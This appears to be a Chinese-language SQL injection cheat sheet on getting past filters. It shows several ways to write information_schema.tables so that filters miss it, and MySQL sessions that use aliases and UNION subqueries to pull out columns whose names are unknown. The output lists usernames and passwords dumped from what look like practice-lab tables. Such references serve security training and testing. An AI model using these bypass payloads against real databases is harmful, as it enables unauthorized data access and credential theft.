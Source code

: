 以 information_schema.tables 为例

空格 `information_schema . tables`

着重号 `information</em>schema.tables`

特殊符 `/!informationschema.tables/`

别名 `information_schema.(partitions),(statistics),(keycolumnusage),(table_constraints)`

#### 列名

+ 别名

```
mysql> select group_concat(a,b,c) from (select 1 as a,2 as b,3 as c union (select * from users)) as d;
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| group_concat(a,b,c)                                                                                                                                                                                  |
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 123,1DumbDumb,2AngelinaI-kill-you,3Dummyp@ssword,4securecrappy,5stupidstupidity,6supermangenious,7batmanmob!le,8adminadmin,9admin1admin1,10admin2admin2,11admin3admin3,12dhakkandumbo,14admin4admin4 |
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)




mysql> select (select 1)a,(select 2)b,(select 3)c,(select 4)d;
+---+---+---+---+
| a | b | c | d |
+---+---+---+---+
| 1 | 2 | 3 | 4 |
+---+---+---+---+
1 row in set (0.00 sec)

mysql> select * from (select 1)a,(select 2)b,(select 3)c,(select 4)d;
+---+---+---+---+
| 1 | 2 | 3 | 4 |
+---+---+---+---+
| 1 | 2 | 3 | 4 |
+---+---+---+---+
1 row in set (0.00 sec)

mysql> select * from (select 1)a,(select 2)b,(select 3)c,(select 4)d union select * from user;
+---+-------+----------+-------------+
| 1 | 2     | 3        | 4           |
+---+-------+----------+-------------+
| 1 | 2     | 3        | 4           |
| 1 | admin | admin888 | 110@110.com |
| 2 | test  | test123  | 119@119.com |
| 3 | cs    | cs123    | 120@120.com |
+---+-------+----------+-------------+
4 rows in set (0.01 sec)

mysql> select e.4 from (select * from (select 1)a,(select 2)b,(select 3)c,(select 4)d union select * from user)e;
```